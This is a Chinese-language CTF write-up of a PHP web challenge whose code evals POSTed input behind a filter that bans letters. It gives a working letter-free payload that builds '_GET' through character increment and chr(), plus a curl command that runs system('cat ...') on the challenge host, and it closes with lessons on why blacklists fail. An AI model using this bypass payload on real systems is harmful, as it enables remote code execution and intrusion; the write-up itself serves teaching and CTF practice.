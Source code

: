 ### 自增型无字母RCE

#### 1. 题目信息

- **题目名称:** Challenge_rce
    
- **URL:** `http://node5.anna.nsstf.cn:29505/`
    
- **题目类型:** Web, 远程代码执行 (RCE)
    

#### 2. 初始探索与代码审计

访问题目URL，页面为空。根据题目名称 `rce` 和CTF的常规经验，尝试在URL后添加 `?hint=1` 参数，服务器返回了页面的PHP源代码。

**源码如下:**


```php
<?php
error_reporting(0);
if (isset($_GET['hint'])) {
    highlight_file(__FILE__);
}
if (isset($_POST['rce'])) {
    $rce = $_POST['rce'];
    if (strlen($rce) <= 120) {
        if (is_string($rce)) {
            // 关键的过滤器
            if (!preg_match("/[!@#%^&*:'\-<?>\"\/|`a-zA-Z~\\\\]/", $rce)) {
                // 漏洞触发点
                eval($rce);
            } else {
                echo("Are you hack me?");
            }
        } else {
            echo "I want string!";
        }
    } else {
        echo "too long!";
    }
}
// flag=NSSCTF{1b9fc08a-58e8-4888-828f-74ebddb2d253}
?>
```

**代码审计分析:**

1. **漏洞点 (Sink):** 核心漏洞在于 `eval($rce);`。该函数会执行通过POST方法提交的 `rce` 参数中的字符串作为PHP代码。
    
2. **限制条件 (Filters):**
    
    - 必须通过POST方法提交`rce`参数。
        
    - Payload长度必须小于等于120个字符。
        
    - Payload必须通过 `!preg_match(...)` 的黑名单检查。
        
        - **禁用字符:** 正则表达式 `/[!@#%^&*:'\-<?>\"\/|`a-zA-Z~\]/ `禁止了所有大小写字母 (`a-zA-Z`) 和绝大多数常用符号。
            
        - **可用字符:** 经过仔细分析，我们发现了一些关键的可用字符，包括 `$` (变量), `_` (变量), `[]` (数组访问), `()` (函数调用), `.` (字符串连接), `;` (语句结束), `+` (运算) 以及所有数字 `0-9`。
            

#### 3. 解题思路分析

**目标:** 执行系统命令 `cat /ffffllllaaaagggg` 来获取flag。 **挑战:** 由于所有字母都被禁用，我们无法直接在payload中使用 `system()`, `exec()` 或其他任何函数名。

为了绕过这个限制，我们采用了一种经典的 **“分层攻击”** 或 **“代码与数据分离”** 的策略。

1. **数据层 (传入“弹药”):** 利用限制较少的GET请求，将我们需要执行的函数名和命令字符串作为参数传入。这样，它们就作为数据存在于PHP的运行环境中，等待被调用。
    
    - 构造URL： `?1=system&2=cat /ffffllllaaaagggg`
        
    - 此时，在PHP脚本内部，`$_GET[1]` 的值就是字符串 `"system"`，`$_GET[2]` 的值就是字符串 `"cat /ffffllllaaaagggg"`。
        
2. **代码层 (构造“扳机”):** 在被严格过滤的 `rce` 参数中，我们只需构造一段不含字母的“胶水代码”，它的作用是找到并执行我们在数据层传入的“弹药”。
    
    - 目标代码: `$_GET[1]($_GET[2]);`
        
    - 核心难题: 如何在不使用字母 `G`, `E`, `T` 的情况下，构造出 `_GET` 这个字符串。
        

#### 4. Payload 构造与详解

以下是我们使用的payload，它精妙地利用了PHP的语言特性来完成 `_GET` 的构造。

**最终Payload:**


```php
$_=[]._;$__=$_[1];$_=$_[0];$_++;$_0=++$_;$_++;$_++;$_++;$_++;$_=$_0.++$_.$__;$_=_.$_(71).$_(69).$_(84);$$_[1]($$_[2]);
```

**分步解析:**

1. `$_=[]._;`
    
    - `[]` 在字符串上下文中是 `"Array"`，`_` 是字符串 `_`。通过 `.` 连接得到 `"Array_"`。
        
    - **结果:** 变量 `$_` 的值变为 `"Array_"`。
        
2. `$__=$_[1]; $_=$_[0];`
    
    - 从 `"Array_"` 中取出索引 `1` 的字符 `'r'` 存入 `$__`。
        
    - 取出索引 `0` 的字符 `'A'` 存入 `$_` (覆盖原有值)。
        
    - **结果:** `$__` = `'r'`, `$_` = `'A'`。
        
3. `$_++; $_0=++$_; $_++;$_++;$_++;$_++;`
    
    - 利用PHP中字符可以自增的特性。
        
    - `$_++` 使 `$_` 从 `'A'` 变为 `'B'`。
        
    - `$_0=++$_` 使 `$_` 从 `'B'` 变为 `'C'`，并将 `'C'` 赋值给 `$_0`。
        
    - `$_` 再自增四次，从 `'C'` 变为 `'G'`。
        
    - **结果:** `$_0` = `'C'`, `$_` = `'G'`。
        
4. `$_=$_0.++$_.$__;`
    
    - 这是一个关键的拼接步骤，目的是构造出函数名 `chr`。
        
    - `$_0` 是 `'C'`，`++$_` 使 `'G'` 变为 `'H'`，`$__` 是 `'r'`。
        
    - 拼接后得到 `"CHr"` (在PHP中，函数名不区分大小写，等同于 `chr`)。
        
    - **结果:** `$_` 的值变为 `"CHr"`。
        
5. `$_=_.$_(71).$_(69).$_(84);`
    
    - 这是最核心的构造步骤。
        
    - `$_` 的值是 `"CHr"`，所以 `$_(71)` 相当于执行 `chr(71)`，返回 `'G'`。
        
    - 同理，`$_(69)` 返回 `'E'`，`$_(84)` 返回 `'T'`。
        
    - 最后，将 `"_"`、`"G"`、`"E"`、`"T"` 拼接起来。
        
    - **结果:** `$_` 的值变为 `"_GET"`。
        
6. `$$_[1]($$_[2]);`
    
    - 利用PHP的 **可变变量 (Variable Variables)** 特性。
        
    - `$_` 的值是字符串 `"_GET"`。
        
    - `$$` 的意思是，将 `$_` 的值 `_GET` 作为变量名来引用。因此，`$$` 就等价于超全局数组 `$ _GET`。
        
    - 最终，这行代码被PHP引擎准确地解析为 `$_GET[1]($_GET[2]);`，成功触发了命令执行。
        

#### 5. 最终攻击请求

我们可以使用 `curl` 工具来发送这个精心构造的HTTP请求。

Bash

```bash
curl "http://node5.anna.nsstf.cn:29505/?1=system&2=cat /ffffllllaaaagggg" -d 'rce=$_=[]._;$__=$_[1];$_=$_[0];$_++;$_0=++$_;$_++;$_++;$_++;$_++;$_=$_0.++$_.$__;$_=_.$_(71).$_(69).$_(84);$$_[1]($$_[2]);'
```

_(注: 使用单引号 `'` 包裹 `-d` 的内容可以防止shell对 `$` 等特殊字符进行解析)_

服务器执行 `system('cat /ffffllllaaaagggg')` 命令后，会在响应体中返回文件的内容。

**Flag:** `NSSCTF{1b9fc08a-58e8-4888-828f-74ebddb2d253}`

#### 6. 总结与分析

本题是一道经典的“无字母RCE”挑战，考察了选手对PHP语言特性的深入理解和创造性的思维。

- **漏洞根源:** `eval()` 函数的滥用是所有问题的根源。它打破了代码和数据的边界，给予了用户过高的权限。
    
- **黑名单的局限性:** 事实再次证明，依赖黑名单进行安全过滤是脆弱的。攻击者总能利用未被禁止的元素组合出意想不到的攻击向量。相比之下，白名单（只允许已知的安全操作）是更可靠的安全策略。
    
- **语言动态特性的双刃剑:** PHP的弱类型、字符自增、可变变量/函数等特性，在提供开发便利的同时，也为安全绕过创造了条件。深入理解这些特性对于攻防两端都至关重要。